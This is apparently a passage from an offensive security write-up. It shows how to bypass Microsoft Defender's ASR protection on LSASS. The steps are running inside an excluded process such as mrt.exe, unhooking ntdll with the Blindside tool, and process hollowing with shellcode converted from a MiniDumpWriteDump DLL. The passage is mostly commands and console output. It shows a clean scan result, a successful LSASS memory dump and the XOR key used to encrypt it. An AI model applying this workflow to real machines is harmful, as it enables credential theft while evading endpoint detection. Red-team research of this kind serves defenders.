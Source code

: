 We can perform execution (using MiniDumpWrite API) in a trusted excluded process such as `mrt.exe` to operate in the blindspots and avoid detection from this ASR rule.

```
GetPathExclusions = function()
  -- function num : 0_2
  local l_3_0 = {}
  l_3_0["%windir%\\system32\\WerFaultSecure.exe"] = 2
  l_3_0["%windir%\\system32\\mrt.exe"] = 2
  [...snip...]
```

[Blindside](https://github.com/CymulateResearch/Blindside/tree/main) works by first spawning a debug process, then creates a breakpoint handler and sets a hardware breakpoint that will force the debugged process to load only a fresh copy of ntdll to memory. This will result in a clean and unhooked ntdll which could then be used to perform process injection using NtAPIs.

Compiling and analysing the POC after we find that there are no detections.

```
PS D:\> .\ThreatCheck.exe -f D:\Work\Blindside.exe
[+] No threat found!
```

Testing the POC against MDE too we find that we have no detections and that ntdll is succesfully unhooked:

```
C:\Users\administrator1\Desktop>.\Blindside.exe
[+] Creating new process in debug mode
[+] Found LdrLoadDllAddress address: 0x00007FFC875DAE00
[+] Setting HWBP on remote process
[+] Breakpoint Hit!
[+] Copying clean ntdll from remote process
[+] Found ntdll base address: 0x00007FFC875A0000
[+] Unhooked
```

Now, using the unhooked ntdll it is possible to add Process Injection functionality.

In this case we use Process Hollowing using a few replaced NtAPIs. We serve our shellcode which is compiled from this blog (Uses standard MiniDumpWriteAPI with and encrypted dump): https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/ and convert it shellcode using [pe2sh](https://github.com/hasherezade/pe_to_shellcode). 

Convert DLL to shellcode and test:

```
PS D:\Work\pe2sh> .\pe2shc.exe .\DLLHijackLSASSDump.dll DLLHijackLSASSDump.bin
Using: Loader v2
Reading module from: .\DLLHijackLSASSDump.dll
[INFO] This is a console application.
[INFO] Saved as: DLLHijackLSASSDump.bin

PS D:\Work\pe2sh> .\runshc64.exe .\DLLHijackLSASSDump.bin
[*] Reading module from: .\DLLHijackLSASSDump.bin
>>> Creating a new thread...
[*] Running the shellcode [1bb11230000 - 1bb11239600]
[+] Searching for LSASS PID
[+] LSASS PID: 1436
[+] Starting dump to memory buffer
[+] Copied 71065441 bytes to memory buffer
[+] Dump3d LS@SS!
[+] Xor encrypting the memory buffer containing the dump data
[+] Xor key: jisjidpa123
[+] Enrypted dump data written to "LSASS_ENCRYPTED.DMP" file
[*] Running again to unload the DLL...
[*] Load status: 2
[+] The shellcode finished with a return value: 1
```

[+]: Shellcode located at c7160
